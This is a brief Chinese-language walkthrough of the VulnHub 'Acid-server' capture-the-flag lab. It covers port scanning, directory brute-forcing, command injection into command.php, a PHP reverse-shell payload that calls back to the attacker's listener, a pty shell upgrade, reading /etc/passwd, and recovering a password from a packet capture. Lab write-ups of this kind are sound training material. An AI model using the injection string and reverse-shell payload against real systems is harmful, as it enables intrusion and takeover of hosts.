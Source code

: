 # VulnHub: Acid-server
- https://www.vulnhub.com/entry/acid-server,125/

## Walkthrough
nmap掃描虛擬機ip及port，發現位於33447/tcp是開啟狀態，service為http  
`$ sudo nmap -sP 172.16.71.0/24`  
`$ sudo nmap -p1-65535 -sV 172.16.71.208`

利用DirBuster暴力掃目錄，從cake.php中找出/Magic_Box，掃/Magic_Box，發現command.php  
首先ping172.16.71.1;id發現命令成功注入，嘗試獲取shell，監聽3333port  
`$ nc -l 3333`  
用php反彈shell成功，最後payload:  
`172.16.71.1; php-r '$sock=fsockopen("172.16.71.1",3333);exec("/bin/sh-i<&3 >&3 2>&3");'`  
發現su指令無法執行，出現錯誤訊息su:must be run from a terminal，用python調用本地shell  
`$ python -c 'import pty;pty.spawn("/bin/bash")'`  

查找用戶，發現三個可疑帳號acid、saman、root，嘗試找尋用戶的可疑文件  
`$ cat /etc/passwd`  
`$ find / -user acid 2>/dev/null`  
發現pcapng可疑流量檔案，下載回本地查看  

利用wireshark打開hint.pcapng，找到saman密碼1337hax0r  
利用find找到flag.txt，成功！
